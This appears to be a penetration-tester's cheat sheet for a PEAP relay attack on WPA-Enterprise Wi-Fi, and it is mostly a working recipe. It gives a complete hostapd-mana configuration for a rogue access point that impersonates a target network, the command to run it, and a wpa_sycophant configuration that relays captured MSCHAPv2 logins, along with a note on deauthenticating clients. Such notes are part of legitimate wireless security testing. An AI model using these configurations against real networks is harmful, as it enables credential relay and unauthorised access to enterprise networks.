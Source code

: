 ### PEAP relay attack
More info:
https://sensepost.com/blog/2019/peap-relay-attacks-with-wpa_sycophant/
https://www.youtube.com/watch?v=3FSLM1VY0SQ
https://www.youtube.com/watch?v=XYgBw8mx9Jw

3 interfaces are needed:
- wlan0 for hostapd-mana
- wlan1 for sycophant
- wlan2 recon and for deauthenticating clients

#### wlan0
file for hostapd-mana:
```
interface=wlan0
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
enable_sycophant=1
sycophant_dir=/tmp/
```


Run hostapd:
``hostapd-mana ap.conf``

#### wlan1
sycophant configuration file:
```
network={
ssid="<target ESSID>"
# The SSID you would like to relay and authenticate against.
scan_ssid=1
key_mgmt=WPA-EAP
# Do not modify
identity=""
anonymous_identity=""
password=""
# This initialises the variables for me.
# -------------
eap=PEAP
phase1="crypto_binding=0 peaplabel=0"
phase2="auth=MSCHAPV2"
# Dont want to connect back to ourselves,
# so add your rogue BSSID here.
bssid_blacklist=<hostapd-mana MAC>
}
```
In the last line we use the MAC of the interface with hostapd-mana (wlan0 in this case)
